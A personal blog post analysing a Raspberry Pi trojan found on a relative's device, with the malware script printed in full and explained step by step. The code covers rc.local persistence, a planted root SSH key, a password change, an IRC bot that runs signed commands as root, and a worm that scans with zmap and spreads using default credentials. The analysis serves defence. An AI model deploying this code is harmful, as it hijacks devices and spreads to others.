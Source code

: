 ```yaml
---
layout: post
title:  "Raspberry Pi Trojan"
date:   2017-11-06
categories: update
---
```


This weekend, me and my girlfriend visited her parents, and at the same time, I
got to do the usual IT admin work on the Raspberry Pi 3 I set up for her father.
Interestingly, there was a pi-specific trojan installed on his system. I'll walk
you through it!

### Some notes before we start
This script is raspberry pi specific, and relies on that the raspberry pi has a
default password (which is "raspberry") and that sudo is set up so that no
password is needed (which is also the default in raspbian).

### The script

{% highlight bash %}
#!/bin/bash

MYSELF=`realpath $0`
DEBUG=/dev/null
echo $MYSELF >> $DEBUG

if [ "$EUID" -ne 0 ]
then
    NEWMYSELF=`mktemp -u 'XXXXXXXX'`
    sudo cp $MYSELF /opt/$NEWMYSELF
    sudo sh -c "echo '#!/bin/sh -e' > /etc/rc.local"
    sudo sh -c "echo /opt/$NEWMYSELF >> /etc/rc.local"
    sudo sh -c "echo 'exit 0' >> /etc/rc.local"
    sleep 1
    sudo reboot
else
{% endhighlight %}

If the script isn't running as root, then it creates a copy of itself in /opt
and tells `rc.local` to run the script during boot. Then it reboots the pi,
causing it to execute the script as root on boot.

{% highlight bash %}
TMP1=`mktemp`
echo $TMP1 >> $DEBUG

killall bins.sh
killall minerd
killall node
killall nodejs
killall ktx-armv4l
killall ktx-i586
killall ktx-m68k
killall ktx-mips
killall ktx-mipsel
killall ktx-powerpc
killall ktx-sh4
killall ktx-sparc
killall arm5
killall zmap
killall kaiten
killall perl
{% endhighlight %}

In case the computer was already compromised as a miner or some other nasty
programs, let's turn them off. But before that it echoes some data to `$DEBUG`,
which is set to `/dev/null`. Presumably, this was only used while developing the
script.

Next comes the more nasty parts.

{% highlight bash %}
echo "127.0.0.1 bins.deutschland-zahlung.eu" >> /etc/hosts
rm -rf /root/.bashrc
rm -rf /home/pi/.bashrc
{% endhighlight %}

Ok, host aliasing and removing any shell definitions. I assume, to avoid
problems in the future with other aliases etc etc.

{% highlight bash %}
usermod -p \$6\$vGkGPKUr\$heqvOhUzvbQ66Nb0JGCijh/81sG1WACcZgzPn8A0Wn58hHXWqy5yOgTlYJEbOjhkHD0MRsAkfJgjU/ioCYDeR1 pi
{% endhighlight %}

Changes the password of the pi user to something else (this is not the actual
password, this is the encrypted password

{% highlight bash %}
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D6s4J0L7XV2kep0rNzgY1S1IdE8HDef7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B"  >> /root/.ssh/authorized_keys
{% endhighlight %}

Allow root to log in using an ssh key

{% highlight bash %}
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
rm -rf /tmp/ktx*
rm -rf /tmp/cpuminer-multi
rm -rf /var/tmp/kaiten

cat > /tmp/public.pem <<EOFMARKER
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC/ihTe2DLmG9huBi9DsCJ90MJs
glv7y530TWw2UqNtKjPPA1QXvNsWdiLpTzyvk8mv6ObWBF8hHzvyhJGCadl0v3HW
rXneU1DK+7iLRnkI4PRYYbdfwp92nRza00JUR7P4pghG5SnRK+R/579vIiy+1oAF
WRq+Z8HYMvPlgSRA3wIDAQAB
-----END PUBLIC KEY-----
EOFMARKER
{% endhighlight %}

Adds another name server, removes some directories if they were there, and
stores a public key as `/tmp/public.pem`. You will soon see why.

{% highlight bash %}
BOT=`mktemp -u 'XXXXXXXX'`

cat > /tmp/$BOT <<'EOFMARKER'
#!/bin/bash

SYS=`uname -a | md5sum | awk -F' ' '{print $1}'`
NICK=a${SYS:24}
while [ true ]; do

    arr[0]="ix1.undernet.org"
    arr[1]="ix2.undernet.org"
    arr[2]="Ashburn.Va.Us.UnderNet.org"
    arr[3]="Bucharest.RO.EU.Undernet.Org"
    arr[4]="Budapest.HU.EU.UnderNet.org"
    arr[5]="Chicago.IL.US.Undernet.org"
    rand=$[$RANDOM % 6]
    svr=${arr[$rand]}

    eval 'exec 3<>/dev/tcp/$svr/6667;'
    if [[ ! "$?" -eq 0 ]] ; then
            continue
    fi

    echo $NICK

    eval 'printf "NICK $NICK\r\n" >&3;'
    if [[ ! "$?" -eq 0 ]] ; then
            continue
    fi
    eval 'printf "USER user 8 * :IRC hi\r\n" >&3;'
    if [[ ! "$?" -eq 0 ]] ; then
        continue
    fi

    # Main loop
    while [ true ]; do
        eval "read msg_in <&3;"

        if [[ ! "$?" -eq 0 ]] ; then
            break
        fi

        if  [[ "$msg_in" =~ "PING" ]] ; then
            printf "PONG %s\n" "${msg_in:5}";
            eval 'printf "PONG %s\r\n" "${msg_in:5}" >&3;'
            if [[ ! "$?" -eq 0 ]] ; then
                break
            fi
            sleep 1
            eval 'printf "JOIN #biret\r\n" >&3;'
            if [[ ! "$?" -eq 0 ]] ; then
                break
            fi
        elif [[ "$msg_in" =~ "PRIVMSG" ]] ; then
            privmsg_h=$(echo $msg_in| cut -d':' -f 3)
            privmsg_data=$(echo $msg_in| cut -d':' -f 4)
            privmsg_nick=$(echo $msg_in| cut -d':' -f 2 | cut -d'!' -f 1)

            hash=`echo $privmsg_data | base64 -d -i | md5sum | awk -F' ' '{print $1}'`
            sign=`echo $privmsg_h | base64 -d -i | openssl rsautl -verify -inkey /tmp/public.pem -pubin`

            if [[ "$sign" == "$hash" ]] ; then
                CMD=`echo $privmsg_data | base64 -d -i`
                RES=`bash -c "$CMD" | base64 -w 0`
                eval 'printf "PRIVMSG $privmsg_nick :$RES\r\n" >&3;'
                if [[ ! "$?" -eq 0 ]] ; then
                    break
                fi
            fi
        fi
    done
done
EOFMARKER

chmod +x /tmp/$BOT
nohup /tmp/$BOT 2>&1 > /tmp/bot.log &
rm /tmp/nohup.log -rf
rm -rf nohup.out
sleep 3
rm -rf /tmp/$BOT
{% endhighlight %}

Well, what do you know - an IRC bot? It creates a nick using `uname -a | md5sum`
(which is stupid, there are probably lots of pi users that would get the same
output from `uname -a`), then tries to connect to a random undernet server,
talks IRC properly setting NAME and USER and so on. Once connected, it responds
to PING if needed, and then joins #biret, where it listens for commands to
execute.

When it gets a command, it makes sure the command is signed using the public key
we saw earlier, and in case of a match, it executes whatever command was sent in
the message. Being that this would run as root, it means unrestricted access to
the compromised system.

The last parts of this snippet is just making the bot script runnable, starting
it (with logging, nice!), letting it run for three seconds, then deleting it
(while it runs, leaving no traces except the log, it seems).

{% highlight bash %}
NAME=`mktemp -u 'XXXXXXXX'`

date > /tmp/.s

apt-get update -y --force-yes
apt-get install zmap sshpass -y --force-yes

while [ true ]; do
    FILE=`mktemp`
    zmap -p 22 -o $FILE -n 100000
    killall ssh scp
    for IP in `cat $FILE`
    do
        sshpass -praspberry scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberry ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
        sshpass -praspberryraspberry993311 scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberryraspberry993311 ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
    done
    rm -rf $FILE
    sleep 10
done

fi
{% endhighlight %}

The final touches, install sshpass and zmap. zmap is apparently like nmap, but
targeted for scanning the whole internet. sshpass is used to be able to use
password authentication over ssh in a non-interactive way.

It then runs zmap and saves its results to a file. It goes through the file, and
for each entry, tries to log in with `pi:raspberry` as credentials (assuming it
is a raspberry pi), and effectively copies itself to the new host.

### How to get rid of it
This is a tricky one, given that the IRC bot might have accepted any commands.
What I did was simply to remove the script and any files it had touched,
restoring `rc.local`, the root user's ssh directory and so on. Some reboots and
there were no apparent traces of it left on the system.

What any reasonable person SHOULD do is: wipe the pi and reinstall. I would have
done that if I had an sd card reader with me. I might do it on next visit. But
for now, this seemed enough.

